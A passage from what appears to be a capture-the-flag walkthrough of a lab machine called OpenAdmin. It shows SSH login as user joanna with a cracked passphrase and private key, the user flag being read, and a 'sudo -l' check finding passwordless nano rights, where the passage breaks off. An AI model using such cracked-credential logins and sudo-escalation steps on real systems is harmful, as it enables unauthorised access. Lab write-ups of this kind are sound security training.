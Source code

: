 SUCCESS! we got a password `joanna:bloodninjas`. We can try to `ssh` with `joanna` using this password, and rsa key.

```sh
$ssh -i ./joanna.priv joanna@10.10.10.171
Enter passphrase for key './joanna.priv':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 18 13:51:21 UTC 2020

  System load:  0.0               Processes:             118
  Usage of /:   49.6% of 7.81GB   Users logged in:       1
  Memory usage: 18%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
joanna@openadmin:~$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f
```
Great we got user.txt !

# Root

First we can see if `joanna` has any `sudo` privs

```sh
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
